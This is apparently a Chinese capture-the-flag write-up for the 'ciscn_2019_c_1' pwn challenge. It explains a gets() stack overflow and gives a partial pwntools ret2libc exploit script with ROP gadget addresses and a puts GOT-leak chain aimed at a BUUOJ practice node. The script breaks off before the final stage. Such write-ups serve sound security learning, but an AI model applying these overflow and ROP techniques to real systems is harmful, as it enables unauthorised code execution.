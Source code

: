 



## ciscn_2019_c_1



check一下64位开启nx保护，部分relro





程序有个没有限制的gets，所以这里应该会有栈溢出，但是没有在程序里面看到system和/bin/sh字符串的形式，后面又有一个puts，所以可以尝试一下puts当前puts的地址，然后就是标准的ret2libc



看一下rdi和ret的地址

![image-20241107232305394](../_media/image-20241107232305394.png)



```
rdi_addr = 0x400c83
ret_addr = 0x4006b9
```





```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "node5.buuoj.cn"
port = 28831

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x400c83
retx_addr = 0x4006b9 
encrypt_addr = 0x04009A0

offset = b'\0' + b'a'* (0x50 + 0x08-1)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# encrypt_addr = elf.symbols['encrypt']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(encrypt_addr)

p.recvuntil(b'Input your choice!\n')
p.sendline(str(1))
```